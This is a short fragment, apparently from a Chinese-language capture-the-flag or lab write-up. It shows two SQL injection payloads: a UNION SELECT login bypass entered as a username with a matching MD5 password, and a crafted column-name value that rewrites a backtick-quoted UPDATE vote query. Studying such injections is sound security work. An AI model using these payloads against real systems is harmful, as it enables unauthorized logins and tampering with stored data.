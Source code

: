 所以用户名输入
x' union select 1,'admin',md5('haha') #
密码haha

---------

UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1

bill`=111,`george`=`george

UPDATE noescvotes SET `bill`=111,`george`=`george`=`bill`=111,`george`=`george`+1 WHERE id=1

---------






